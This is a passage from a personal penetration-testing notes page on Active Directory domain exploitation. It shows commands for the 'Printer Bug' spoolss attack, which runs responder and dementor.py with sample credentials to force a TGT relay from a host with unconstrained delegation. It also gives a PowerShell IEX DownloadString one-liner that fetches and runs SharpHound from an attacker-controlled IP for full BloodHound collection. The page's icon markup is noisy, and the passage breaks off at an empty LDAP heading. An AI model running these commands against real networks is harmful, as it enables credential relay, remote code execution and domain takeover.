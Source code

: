 Attacking spoolss ("The Printer Bug")[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1482'%3e%3cg data-evernote-id='1483' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1484' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1485' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#attacking-spoolss-the-printer-bug)

From a host with unconstrained delegation, "[the printer bug](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)" and [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) can be used to cause a TGT relay from the target host to us running responder, so we can generate a TGS for any user on that target host:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1503'%3e%3cg data-evernote-id='1504' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1505' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1506' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

101## set up a relay with responder:
102responder -I tun0 --lm # tun0 = 10.10.15.123
103​
104## execute exploit through:

105proxychains python dementor.py -u xsvc -p 'S3cur3PW123' -d 'burmat.co' 10.10.15.123 10.10.10.123

#

BLOODHOUND[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1540'%3e%3cg data-evernote-id='1541' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1542' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1543' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#bloodhound)

##

Ingestor Launch[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1556'%3e%3cg data-evernote-id='1557' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1558' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1559' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#ingestor-launch)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1563'%3e%3cg data-evernote-id='1564' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1565' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1566' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

106IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');

107Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;

#

LDAP QUERIES[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1581'%3e%3cg data-evernote-id='1582' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1583' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1584' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#ldap-queries)
